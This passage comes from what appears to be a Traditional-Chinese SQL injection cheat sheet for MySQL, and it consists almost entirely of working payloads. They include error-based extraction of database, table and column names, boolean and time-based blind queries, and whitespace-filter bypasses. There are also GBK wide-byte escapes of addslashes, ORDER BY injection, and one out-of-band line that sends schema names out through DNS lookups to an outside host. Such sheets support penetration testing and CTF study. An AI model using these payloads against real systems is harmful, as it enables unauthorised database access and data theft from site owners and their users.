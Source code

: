   - 爆庫名、表名、字段名
    - 當過濾`information_schema`等關鍵字時，可以用下面方法爆庫名
      - `select 1,2,3 from users where 1=abc();`
        - `ERROR 1305 (42000): FUNCTION fl4g.abc does not exist`
    - 爆表名
      - `select 1,2,3 from users where Polygon(id);`
      - ``select 1,2,3 from users where linestring(id);``
        - ```ERROR 1367 (22007): Illegal non geometric '`fl4g`.`users`.`id`' value found during parsing```
    - 爆Column
      - `select 1,2,3 from users where (select * from  (select * from users as a join users as b)as c);`
        - `ERROR 1060 (42S21): Duplicate column name 'id'`
      - `select 1,2,3 from users where (select * from  (select * from users as a join users as b using(id))as c);`
        - `ERROR 1060 (42S21): Duplicate column name 'username'`
- Blind Based (Time/Boolean)
  - Boolean
    - 「有」跟「沒有」
    - `id=87 and length(user())>0`
    - `id=87 and length(user())>100`
    - `id=87 and ascii(mid(user(),1,1))>100`
    - `id=87 or ((select user()) regexp binary '^[a-z]')`
  - Time
    - 用在啥結果都看不到時
    - `id=87 and if(length(user())>0, sleep(10), 1)=1`
    - `id=87 and if(length(user())>100, sleep(10), 1)=1`
    - `id=87 and if(ascii(mid(user(),1,1))>100, sleep(10), 1)=1`

- Out of Bnad
  - Windows only
  - `select load_file(concat("\\\\",schema_name,".dns.kaibro.tw/a")) from information_schema.schemata`

- 繞過空白檢查
  - `id=-1/**/UNION/**/SELECT/**/1,2,3`
  - `id=-1%09UNION%0DSELECT%0A1,2,3`
  - `id=(-1)UNION(SELECT(1),2,3)`

- 寬字節注入
  - `addslashes()`會讓`'`變`\'`
  - 在`GBK`編碼中，中文字用兩個Bytes表示
    - 其他多字節編碼也可
    - 但要低位範圍有包含`0x5c`(`\`)
  - 第一個Byte要>128才是中文
  - `%df'` => `%df\'` => `運'` (成功逃逸)

- Order by注入
  - 可以透過`asc`、`desc`簡單判斷
    - `?sort=1 asc`
    - `?sort=1 desc`
  - 後面不能接UNION
  - 已知字段名 (可以盲注)
    - `?order=IF(1=1, username, password)`
  - 利用報錯
    - `?order=IF(1=1,1,(select 1 union select 2))` 正確
    - `?order=IF(1=2,1,(select 1 union select 2))` 錯誤
    - `?order=IF(1=1,1,(select 1 from information_schema.tables))` 正常
    - `?order=IF(1=2,1,(select 1 from information_schema.tables))` 錯誤
  - Time Based
    - `?order=if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))` 正常
    - `?order=if(1=2,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test))` sleep 2秒
